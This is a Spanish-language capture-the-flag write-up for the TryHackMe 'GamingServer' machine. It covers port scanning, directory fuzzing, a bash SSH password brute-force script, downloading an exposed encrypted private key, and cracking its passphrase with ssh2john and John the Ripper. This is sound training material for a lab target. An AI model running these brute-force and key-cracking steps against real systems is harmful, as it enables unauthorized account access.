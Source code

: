 ## TryHackMe  <> GamingServer

![image](https://github.com/Esevka/CTF/assets/139042999/498c4185-0e3c-4f9b-b116-6dc643d2e93e)

Enlace Maquina: https://tryhackme.com/room/gamingserver

Enunciado : Obtener  flags de usuario y root.
---
---

## Escaneo de puertos

-Lanzamos una traza ICMP(ping) para ver si la maquina esta activa, segun el ttl obtenido por proximidad al valor 64 podriamos decir que es una maquina Linux.

    ┌──(root㉿kali)-[/home/kali]
    └─# ping -c1 10.10.236.80
    PING 10.10.236.80 (10.10.236.80) 56(84) bytes of data.
    64 bytes from 10.10.236.80: icmp_seq=1 ttl=63 time=214 ms
    
    --- 10.10.236.80 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 214.202/214.202/214.202/0.000 ms
    
-Reporte Nmap (Obtenemos puertos abiertos servicios y versiones que estan corriendo).

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/gamingserver/nmap]
    └─# nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.236.80 -oN open_ports
    Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-15 17:10 CEST
    PORT   STATE SERVICE REASON
    22/tcp open  ssh     syn-ack ttl 63
    80/tcp open  http    syn-ack ttl 63
                                                                                                                                                                                  
    ┌──(root㉿kali)-[/home/…/Desktop/ctf/gamingserver/nmap]
    └─# nmap -p 22,80 -sCV 10.10.236.80 -vvv -oN info_ports                        
    Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-15 17:11 CEST
    
    PORT   STATE SERVICE REASON         VERSION
    22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 340efe0612673ea4ebab7ac4816dfea9 (RSA)
    | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCrmafoLXloHrZgpBrYym3Lpsxyn7RI2PmwRwBsj1OqlqiGiD4wE11NQy3KE3Pllc/C0WgLBCAAe+qHh3VqfR7d8uv1MbWx1mvmVxK8l29UH1rNT4mFPI3Xa0xqTZn4Iu5RwXXuM4H9OzDglZas6RIm6Gv+sbD2zPdtvo9zDNj0BJClxxB/SugJFMJ+nYfYHXjQFq+p1xayfo3YIW8tUIXpcEQ2kp74buDmYcsxZBarAXDHNhsEHqVry9I854UWXXCdbHveoJqLV02BVOqN3VOw5e1OMTqRQuUvM5V4iKQIUptFCObpthUqv9HeC/l2EZzJENh+PmaRu14izwhK0mxL
    |   256 49611ef4526e7b2998db302d16edf48b (ECDSA)
    | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEaXrFDvKLfEOlKLu6Y8XLGdBuZ2h/sbRwrHtzsyudARPC9et/zwmVaAR9F/QATWM4oIDxpaLhA7yyh8S8m0UOg=
    |   256 b860c45bb7b2d023a0c756595c631ec4 (ED25519)
    |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOLrnjg+MVLy+IxVoSmOkAtdmtSWG0JzsWVDV2XvNwrY
    
    80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
    | http-methods: 
    |_  Supported Methods: GET POST OPTIONS HEAD
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: House of danak
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## Analisis de vulnerabilidades en los servicios y explotacion de los mismos.

-Revisamos la web en busqueda de info que nos pueda servir.

  - En el codigo de la web encontramos un posible usuario ---> john
    
        john, please add some actual content to the site! lorem ipsum is horrible to look at.
      

  - Si entramos en el apartado "DRAAGAN LORE" encontramos un boton "Uploads" que nos lista el contenido del directorio.
  
      ![image](https://github.com/Esevka/CTF/assets/139042999/4f6fafd0-f46a-49b4-af5f-bb64f865c9b8)

    Nos descargamos dict.lst, segun hemos visto puede ser un diccionario de posibles claves para el usuario anteriormente encontrado john.

  - Podriamos hacer un pequeno script en bash que intente conectar por el servicio ssh del puerto 22 probando esas claves.

      Creamos el script y le damos permisos de ejecucion

        ┌──(root㉿kali)-[/home/…/Desktop/ctf/gamingserver/script]
        └─# touch brute_ssh.sh
                                                                                                                                                                                      
        ┌──(root㉿kali)-[/home/…/Desktop/ctf/gamingserver/script]
        └─# chmod +x brute_ssh.sh
    
  - Contenido del script y su ejecucion, no pudimos loguearnos por ssh.
  
        #!/bin/bash
        for pass in $(cat ../content/dict.lst)
          do
            echo $pass
            sshpass -p $'("pass")' ssh john@10.10.236.80  -o StrictHostKeyChecking=no
          done
  
        ┌──(root㉿kali)-[/home/…/Desktop/ctf/gamingserver/script]
        └─# ./brute_ssh.sh
        Spring2017
        Warning: Permanently added '10.10.236.80' (ED25519) to the list of known hosts.
        Permission denied, please try again.
        Spring2016
        Permission denied, please try again.
        Spring2015
        Permission denied, please try again.
    
-Fuzzeamos la web

    ┌──(root㉿kali)-[/home/kali/Desktop/ctf/gamingserver]
    └─# gobuster dir -u http://10.10.236.80 -w /usr/share/wordlists/dirb/common.txt -o fuzz
    ===============================================================
    Gobuster v3.5
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    /secret               (Status: 301) [Size: 313] [--> http://10.10.236.80/secret/]
    /server-status        (Status: 403) [Size: 277]
    /uploads              (Status: 301) [Size: 314] [--> http://10.10.236.80/uploads/]

  - Encontramos en el directorio /secret un fichero "secretKey" lo que puede ser una clave privada del usuario john para conectarnos por ssh
    
      ![image](https://github.com/Esevka/CTF/assets/139042999/ae93dacb-e0ff-48af-bad9-92975c87fb4f)

      ![image](https://github.com/Esevka/CTF/assets/139042999/7e6f4292-b075-44f1-82c2-1b530e567f83)


  - Nos la copiamos a nuestra maquina y le damos permisos solo de lectura, intentamos conectarnos.
      
        ┌──(root㉿kali)-[/home/kali/Desktop/ctf/gamingserver]
        └─# curl http://10.10.236.80/secret/secretKey -o content/id_rsa
          % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                         Dload  Upload   Total   Spent    Left  Speed
        100  1766  100  1766    0     0  13357      0 --:--:-- --:--:-- --:--:-- 13378                                        
                                                                                                                                                                                      
        ┌──(root㉿kali)-[/home/…/Desktop/ctf/gamingserver/content]
        └─# cat id_rsa        
        -----BEGIN RSA PRIVATE KEY-----
        Proc-Type: 4,ENCRYPTED
        DEK-Info: AES-128-CBC,82823EE792E75948EE2DE731AF1A0547
        
        T7+F+3ilm5FcFZx24mnrugMY455vI461ziMb4NYk9YJV5uwcrx4QflP2Q2Vk8phx
        H4P+PLb79nCc0SrBOPBlB0V3pjLJbf2hKbZazFLtq4FjZq66aLLIr2dRw74MzHSM
        FznFI7jsxYFwPUqZtkz5sTcX1afch+IU5/Id4zTTsCO8qqs6qv5QkMXVGs77F2kS
        Lafx0mJdcuu/5aR3NjNVtluKZyiXInskXiC01+Ynhkqjl4Iy7fEzn2qZnKKPVPv8
        [...]

        ┌──(root㉿kali)-[/home/…/Desktop/ctf/gamingserver/content]
        └─# chmod 400 id_rsa

        ┌──(root㉿kali)-[/home/…/Desktop/ctf/gamingserver/content]
        └─# ssh john@10.10.236.80 -i id_rsa            
        Enter passphrase for key 'id_rsa':

      Nos pide clave para poder utiliar la clave privada que hemos proporcionado, por lo que vamos a intentar crakearla utilizando el diccionario que encontramos anteriormente.

-Crakeamos la id_rsa
    
- Utilizamos ssh2john para generar un fichero que podamos crakear con johntheripper.

        ┌──(root㉿kali)-[/home/…/Desktop/ctf/gamingserver/content]
        └─# ssh2john id_rsa > idrsa_hashjohn
                                                                                                                                                                                          
        ┌──(root㉿kali)-[/home/…/Desktop/ctf/gamingserver/content]
        └─# cat idrsa_hashjohn 
            id_rsa:$sshng$1$16$82823EE792E75948EE2DE731AF1A0547$1200$4fbf85fb78a59b915c159c76e269ebba
            [...]

- Obtencion de la clave 

        ┌──(root㉿kali)-[/home/…/Desktop/ctf/gamingserver/content]
        └─# john --wordlist dict.lst idrsa_john --format=SSH             
        Using default input encoding: UTF-8
        Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
        No password hashes left to crack (see FAQ)
                                                                                                                                                                                      
        ┌──(root㉿kali)-[/home/…/Desktop/ctf/gamingserver/content]
        └─# john idrsa_john --show
        id_rsa:letmein
        
        1 password hash cracked, 0 left

        


    
                                                                   

        

